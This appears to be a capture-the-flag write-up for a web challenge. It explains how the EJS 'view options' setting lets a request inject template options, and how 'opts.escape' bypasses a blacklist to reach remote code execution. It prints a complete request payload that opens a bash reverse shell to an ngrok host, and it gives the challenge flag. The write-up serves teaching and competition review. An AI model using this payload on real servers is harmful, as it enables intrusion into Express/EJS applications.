

# Express JavaScript Security

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}`

## Description

My first JavaScript project.

## Difficulty

Easy

## Deployment

`docker-compose up -d`

## Solution

["Vulnerable" code segment](https://github.com/mde/ejs/blob/633b5fbfb9e3aaeb31040fa0d5ee4cb9eb44f9d8/lib/ejs.js#L471-L475).

EJS lets you pass in options via the data object. This is documented behavior.

Normally, only the following *relatively* harmless options are allowed to be passed in the data object:

```javascript
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
// We don't allow 'cache' option to be passed in the data obj for
// the normal `render` call, but this is where Express 2 & 3 put it
// so we make an exception for `renderFile`
var _OPTS_PASSABLE_WITH_DATA_EXPRESS = _OPTS_PASSABLE_WITH_DATA.concat('cache');
```

But from the above code segment, `settings['view options']` can be used to pass any arbitrary option to EJS.

This can be chained with an RCE gadget (similar to the ones used to gain RCE after prototype pollution). However, most of the known RCE gadgets from online blogs are blacklisted:

```javascript
const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

It is [known](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce) that `opts.escapeFunction` can be used as an RCE gadget [here](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L636-L641).

However, this option can also alternatively be passed via [`opts.escape`](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L519).

```javascript
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```

Payload (URL decoded):

`GET /greet?name=x&settings[view options][escape]=JSON.stringify;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/16180 0>&1"')&settings[view options][client]=1&font=x&fontSize=x HTTP/1.1`

## That GitHub Issue

Most participants would have noticed [this](https://github.com/mde/ejs/issues/735) GitHub issue during the competition (created 2 weeks before the competition).

I wrote this challenge way back in March 2023, and the original idea of this challenge was to find the `view options` sink. This was not documented anywhere (as far as I can tell) at that time.



I guess I was too late to the party. :(

Anyway, after seeing the issue, I added the `escapeFunction` blacklist so that the challenge would not be too easy. At the very least, solvers would have to read the source to find that `escapeFunction` can also be set through `opts.escape`.